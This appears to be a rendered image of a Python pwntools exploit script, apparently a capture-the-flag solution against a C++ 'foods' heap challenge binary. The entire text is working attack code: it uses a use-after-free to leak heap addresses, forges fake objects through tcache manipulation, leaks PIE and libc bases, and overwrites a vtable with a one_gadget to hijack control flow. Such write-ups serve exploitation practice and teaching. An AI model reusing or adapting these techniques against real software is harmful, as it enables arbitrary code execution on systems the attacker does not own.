 ```python
    if b'crunch' in res: return 'bamboo'
    if b'nom nom' in res: return 'food'
    raise RuntimeError('wrong food')

# step 1: leak heap using a UAF
alloc(0, b'a'*0x97) # larger allocation to allow for larger leak
alloc(1, b'a'*0x7)  # needed for PIE leak later
fav(0)
alloc(0, b'A'*0x27) # Freeing foods[0] causes favorite->name_ to point to the tcache @ heap+0x10 (since favorite->name_ == [favorite+0x8] == (malloc_chunk*)favorite->bk)
heapbase = unpack(printName()[72:80])&0xfffffffff000 # tcache[72:80] == tcache[size=0x30]. & to get base.
log.info('heap: '+hex(heapbase))

'''on a brand new allocation,
    - malloc 40 (Food/Bamboo)
    - if foods[idx] doesn't exist, malloc 48 (map element)
    - if name.size() > 0xf, malloc space for string (31, 61, 121, ...).
    - if food type is Bamboo, allocate name.size() space for a copy of the string.
    - if foods[idx] exists, free the backing store for foods[idx]->name_ (if foods[idx]->name_.size() was > 0xf), and then free foods[idx] itself.'''
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30) # negligible chance of overlap
    alloc(idx, b'b'*60) # alloc 40, 48, 61, and potentially alloc&&free 61.
    fav(idx)
    alloc(idx, b'b'*60) # alloc 40&61, free previous 61&40.
    # the Food struct for `favorite` is at the top of tcache[size=0x30] at this point.
    for i in range(10): # There's a 1/2 that `favorite` is overwritten with the payload for every loop here. (1/2)**10 is a small enough error rate.
        # The other 1/2 chance puts `favorite` back on the top of tcache, so just repeat to increase odds.
        alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0')) # Note that len(payload) must not be within [0x18, 0x28) to prevent an additional 0x30 chunk allocation.
        # len(payload) > 0x1f is also forbidden because it would cause the malloc(31) string buffer to be freed. This resolves to len(payload) < 0x17.
    return idx
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')

# step 2: heap leak -> PIE leak -> libc leak
foods1_offset = next(i for i in range(0,99999,0x1000) if b'\0aaaaaaa\0' in (dat := pack(leak(heapbase+i,0x1000),'all'))) # note that this is actually a constant, but I prefer finding the offset dynamically
pie_leak = leak(heapbase+foods1_offset+dat.index(b'\0aaaaaaa\0')-23) # this is a leak of foods[1].vtable.
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50) # offset to the .relro vtable of Bamboo/Food. Find value from IDA or gdb
log.info('PIE: '+hex(context.binary.address))
assert is_addr.base(context.binary.address)
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']}) # libc6_2.27-3ubuntu1.4_amd64

# step 3: overwrite vtable to &one_gadget
og = context.libc.select_gadget(1) # empirical testing for working one_gadget
#og = context.binary.address+0x15bc0 # <--- proof of RIP control; this will cause "om nom nom" to appear 100% of the time
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
log.info('one_gadget: '+hex(og))
#print(pack(leak(og, 200),'all')) # <--- evidence that *one_gadget is real
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
```